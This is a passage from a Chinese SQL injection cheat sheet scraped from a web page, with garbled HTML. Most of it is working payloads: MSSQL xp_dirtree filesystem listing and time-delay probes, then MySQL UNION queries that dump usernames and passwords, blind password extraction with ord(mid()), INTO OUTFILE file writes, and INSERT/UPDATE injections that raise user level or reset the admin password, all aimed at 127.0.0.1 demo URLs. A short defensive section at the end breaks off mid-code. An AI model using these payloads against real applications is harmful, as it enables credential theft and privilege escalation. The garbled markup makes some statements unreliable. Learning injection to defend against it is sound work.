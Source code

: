 sp_blank&gt;_oamethod @o, speak, NULL, all your</p><p>sequel servers are belong to us, 528 waitfor delay 00:00:05--</p><p>xp_blank&gt;_dirtree适用权限PUBLIC&nbsp;<br>exec master.dbo.xp_blank&gt;_dirtree c:\&nbsp;<br>返回的信息有两个字段subdirectory、depth。Subdirectory字段是字符型，depth字段是整形字段。&nbsp;<br>create table dirs(paths varchar(100), id int)&nbsp;<br>建表，这里建的表是和上面xp_blank&gt;_dirtree相关连，字段相等、类型相同。&nbsp;<br>insert dirs exec master.dbo.xp_blank&gt;_dirtree c:\&nbsp;<br>只要我们建表与存储进程返回的字段相定义相等就能够执行！达到写表的效果,一步步达到我们想要的信息！<br><span style="color:#c0c0c0;">文章出处：http://www.diybl.com/course/7_databases/sql/msshl/2007616/59684_2.html</span></p><p><span style="color:#c0c0c0;"></span>&nbsp;********************************************************************************</p><div style="color:rgb(69,69,69);"><p>===MYSQL基础部分===<br>本表查询：<br><a href="http://127.0.0.1/injection/user.php?username=angel%27" rel="nofollow"><span style="color:#70593f;">http://127.0.0.1/injection/user.php?username=angel'</span></a>&nbsp;and LENGTH(password)='6<br><a href="http://127.0.0.1/injection/user.php?username=angel%27" rel="nofollow"><span style="color:#70593f;">http://127.0.0.1/injection/user.php?username=angel'</span></a>&nbsp;and LEFT(password,1)='m</p><p></p><p>Union联合语句：<br><a href="http://127.0.0.1/injection/show.php?id=1%27" rel="nofollow"><span style="color:#70593f;">http://127.0.0.1/injection/show.php?id=1'</span></a>&nbsp;union select 1,username,password from user/*<br><a href="http://127.0.0.1/injection/show.php?id=%27" rel="nofollow"><span style="color:#70593f;">http://127.0.0.1/injection/show.php?id='</span></a>&nbsp;union select 1,username,password from user/*</p><p>导出文件：<br><a href="http://127.0.0.1/injection/user.php?username=angel%27" rel="nofollow"><span style="color:#70593f;">http://127.0.0.1/injection/user.php?username=angel'</span></a>&nbsp;into outfile 'c:/file.txt<br><a href="http://127.0.0.1/injection/user.php?username=%27" rel="nofollow"><span style="color:#70593f;">http://127.0.0.1/injection/user.php?username='</span></a>&nbsp;or 1=1 into outfile 'c:/file.txt<br><a href="http://127.0.0.1/injection/show.php?id=%27" rel="nofollow"><span style="color:#70593f;">http://127.0.0.1/injection/show.php?id='</span></a>&nbsp;union select 1,username,password from user into outfile 'c:/user.txt</p><p>INSERT语句：<br>INSERT INTO `user` (userid, username, password, homepage, userlevel) VALUES ('', '$username', '$password', '$homepage', '1');<br>构造homepage值为：<a href="http://blog.csdn.net/" rel="nofollow"><span style="color:#70593f;">http://4ngel.net'</span></a>, '3’)#<br>SQL语句变为：INSERT INTO `user` (userid, username, password, homepage, userlevel) VALUES ('', 'angel', 'mypass', 'http://4ngel.net', '3’)#', '1');</p><p>UPDATE语句：我喜欢这样个东西<br>先理解这句SQL<br>UPDATE user SET password='MD5($password)', homepage='$homepage' WHERE id='$id'<br>如果此SQL被修改成以下形式，就实现了注入<br>1：修改homepage值为<br><a href="http://blog.csdn.net/" rel="nofollow"><span style="color:#70593f;">http://4ngel.net'</span></a>, userlevel='3<br>之后SQL语句变为<br>UPDATE user SET password='mypass', homepage='http://4ngel.net', userlevel='3' WHERE id='$id'<br>userlevel为用户级别<br>2:修改password值为<br>mypass)' WHERE username='admin'#<br>之后SQL语句变为<br>UPDATE user SET password='MD5(mypass)' WHERE username='admin'#)', homepage='$homepage' WHERE id='$id'<br>3：修改id值为<br>' OR username='admin'<br>之后SQL语句变为<br>UPDATE user SET password='MD5($password)', homepage='$homepage' WHERE id='' OR username='admin'</p><p>===高级部分===<br>常用的MySQL内置函数<br>DATABASE()<br>USER()<br>SYSTEM_USER()<br>SESSION_USER()<br>CURRENT_USER()<br>database()<br>version()<br>SUBSTRING()<br>MID()<br>char()<br>load_file()<br>……<br>函数应用<br>UPDATE article SET title=DATABASE() WHERE id=1<br><a href="http://127.0.0.1/injection/show.php?id=-1" rel="nofollow"><span style="color:#70593f;">http://127.0.0.1/injection/show.php?id=-1</span></a>&nbsp;union select 1,database(),version()<br>SELECT * FROM user WHERE username=char(97,110,103,101,108)<br># char(97,110,103,101,108) 相当于angel，十进制<br><a href="http://127.0.0.1/injection/user.php?userid=1" rel="nofollow"><span style="color:#70593f;">http://127.0.0.1/injection/user.php?userid=1</span></a>&nbsp;and password=char(109,121,112,97,115,115)http://127.0.0.1/injection/user.php?userid=1 and LEFT(password,1)&gt;char(100)<br><a href="http://127.0.0.1/injection/user.php?userid=1" rel="nofollow"><span style="color:#70593f;">http://127.0.0.1/injection/user.php?userid=1</span></a>&nbsp;and ord(mid(password,3,1))&gt;111</p><p>确定数据结构的字段个数及类型<br><a href="http://127.0.0.1/injection/show.php?id=-1" rel="nofollow"><span style="color:#70593f;">http://127.0.0.1/injection/show.php?id=-1</span></a>&nbsp;union select 1,1,1<br><a href="http://127.0.0.1/injection/show.php?id=-1" rel="nofollow"><span style="color:#70593f;">http://127.0.0.1/injection/show.php?id=-1</span></a>&nbsp;union select char(97),char(97),char(97)</p><p>猜数据表名<br><a href="http://127.0.0.1/injection/show.php?id=-1" rel="nofollow"><span style="color:#70593f;">http://127.0.0.1/injection/show.php?id=-1</span></a>&nbsp;union select 1,1,1 from members</p><p>跨表查询得到用户名和密码<br><a href="http://127.0.0.1/ymdown/show.php?id=10000" rel="nofollow"><span style="color:#70593f;">http://127.0.0.1/ymdown/show.php?id=10000</span></a>&nbsp;union select 1,username,1,password,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1 from ymdown_user where id=1</p><p>其他<br>#验证第一位密码<br><a href="http://127.0.0.1/ymdown/show.php?id=10" rel="nofollow"><span style="color:#70593f;">http://127.0.0.1/ymdown/show.php?id=10</span></a>&nbsp;union select 1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1 from ymdown_user where id=1 and ord(mid(password,1,1))=49</p><p>===注入防范===<br>服务器方面<br>magic_quotes_gpc设置为On<br>display_errors设置为Off<br>编码方面<br>$keywords = addslashes($keywords);<br>$keywords = str_replace("_","\_",$keywords);<br>$keywords = str_replace("%","\%",$keywords);<br>数值类型<br>使用intval()抓换<br>字符串类型<br>SQL语句参数中要添加单引号<br>下面代码，用于防治注入<br>if (get_magic_quotes_gpc())